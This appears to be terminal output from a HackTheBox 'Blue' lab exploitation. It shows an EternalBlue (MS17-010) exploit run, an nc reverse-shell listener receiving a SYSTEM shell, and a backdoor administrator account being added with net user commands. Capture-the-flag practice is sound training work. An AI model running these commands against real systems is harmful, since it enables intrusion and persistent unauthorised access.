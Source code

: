 


root@kali:~/HTB/BLUE/AutoBlue-MS17-010# python eternalblue_exploit7.py 10.10.10.40 sc_x64.bin 
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
root@kali:~/HTB/BLUE/AutoBlue-MS17-010# 



root@kali:~/HTB/BLUE/smbFolder/Default# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>




root@kali:~/HTB/BLUE/smbFolder/Default# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>net user admin admin /add
net user admin admin /add
The command completed successfully.


C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>net localgroup administrators admin /add
net localgroup administrators admin /add
The command completed successfully.


C:\Windows\system32>



C:\Windows\system32>net users
net users

User accounts for \\

-------------------------------------------------------------------------------
admin                    Administrator            Guest                    
haris                    
The command completed with one or more errors.


C:\Windows\system32>
